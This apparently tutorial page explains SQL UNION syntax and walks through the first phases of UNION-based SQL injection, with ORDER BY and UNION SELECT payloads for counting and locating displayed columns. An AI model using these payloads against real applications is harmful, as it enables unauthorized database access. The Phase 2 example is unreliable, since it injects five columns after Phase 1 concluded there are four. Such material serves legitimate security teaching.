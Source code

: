 ### UNION Clause Fundamentals

#### Basic UNION Syntax
```sql
-- Basic UNION structure
SELECT column1, column2 FROM table1 
UNION 
SELECT column1, column2 FROM table2;

-- Example combining two tables
SELECT code, city FROM ports 
UNION 
SELECT ship, city FROM ships;
```

#### UNION Requirements
1. **Equal Column Count**: Both SELECT statements must return same number of columns
2. **Compatible Data Types**: Corresponding columns must have compatible data types
3. **Column Order**: Results combined based on column position

---

### UNION Injection Methodology

#### Phase 1: Column Count Detection

##### Method 1: ORDER BY Technique
```sql
-- Start with column 1 and increment until error
' ORDER BY 1-- //     (Success - table has at least 1 column)
' ORDER BY 2-- //     (Success - table has at least 2 columns)
' ORDER BY 3-- //     (Success - table has at least 3 columns)
' ORDER BY 4-- //     (Success - table has at least 4 columns)
' ORDER BY 5-- //     (Error - table has exactly 4 columns)

-- Expected error message:
-- "Unknown column '5' in 'order clause'"
```

##### Method 2: UNION SELECT Technique
```sql
-- Start with assumed column count and adjust
' UNION SELECT 1-- //           (Error - wrong column count)
' UNION SELECT 1,2-- //         (Error - wrong column count)
' UNION SELECT 1,2,3-- //       (Error - wrong column count)
' UNION SELECT 1,2,3,4-- //     (Success - 4 columns confirmed)

-- Expected error message:
-- "The used SELECT statements have a different number of columns"
```

#### Phase 2: Identify Displayed Columns
```sql
-- Test which columns are visible in application output
' UNION SELECT 1,2,3,4,5-- //

-- Example result shows only columns 2,3,4 are displayed:
-- Output: [2] [3] [4]
-- This means column 1 and 5 are not shown to user
```
